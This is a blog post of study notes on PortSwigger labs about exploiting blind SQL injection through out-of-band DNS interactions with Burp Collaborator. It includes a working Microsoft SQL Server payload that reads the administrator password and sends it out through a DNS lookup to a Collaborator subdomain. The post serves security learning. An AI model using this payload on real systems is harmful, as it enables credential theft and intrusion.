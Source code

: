 ```yaml
---
title: 5. Out-of-band Application Security Techniques
date: 2023-12-23
categories: [PortSwigger, SQL injection]
tags: [portswigger, sqli, sql, burp, out-of-band, oast-sqli, burp-collaborator]
img_path: /assets/portswigger/sqli/oast_sqli
published: true
---
```


## Exploiting blind SQLi using Out-of-band Application Security Techniques (OAST)

An app might carry out a SLQ query asynchronously. The app continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. They query is still vulnerable to SQLi, but none of the techniques described so far will work. The app's response does not depend on the [query returning any data](https://cspanias.github.io/posts/PS-SQLi-3.-Blind-SQLi/), [error messages](https://cspanias.github.io/posts/PS-SQLi-4.-Error-based-SQLi/), or on the [time taken to execute the query](https://cspanias.github.io/posts/PS-SQLi-5.-Time-delayed-SQLi/).

In this situation, it is often possible to exploit the blind SQLi vulnerability by triggering out-of-band network interactions to a system that we control. These can be triggered based on an injected condition to infer info one piece at a time. More usefull, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effecting is DNS. Most productions networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

We can use Burp Collaborator for OAST techniques. This is a server that provides custom implementations of various network services, including DNS. It allows us to detect when network interactions occur as a result of sending invidual payloads to a vulnerable app. Burp Suite Pro includes a built-in client that's configured to work with Burp Collaborator right out of the box.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

![](dns_lookup_payload.png){: .normal}

This cause the database to perform a lookup for the following domain: `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`. We can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

### Lab: Blind SQL injection with out-of-band interaction

> **Objective**: _This lab contains a blind SQLi. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. To solve the lab, exploit the SQLi vulnerability to cause a DNS lookup to Burp Collaborator._

> **Note**: _To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server: http://burpcollaborator.net/._

> Burp Suite Professional is required for this lab.
{: .prompt-warning }

## Exploiting blind SQLi using OAST techniques

Having confirmed a way to trigger OAST interactions, you can then out-of-band channel to exfiltrate data from the vulnerable app. For example:

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the `password` for the `Adminstrator` users, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password: `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`. OAST are a powerful way to detect and exploit blind SQLi, due to the high chance of success and the ability to directly exfiltrate data with the out-of-band channel. For this reason, OAST are often preferable even in situations where other techniques for blind exploitation work.

### 

> **Objective**: _This lab contains a blind SQLi vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQLi vulnerability to find out the password of the `administrator` user. To solve the lab, log in as the `administrator` user._

> **Note**: _To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server: http://burpcollaborator.net/._

> Burp Suite Professional is required for this lab.
{: .prompt-warning }

## Resources

- [SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection).
- [SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
- Rhana's [video walkthrough](https://www.youtube.com/watch?v=KOaDan0UqFs).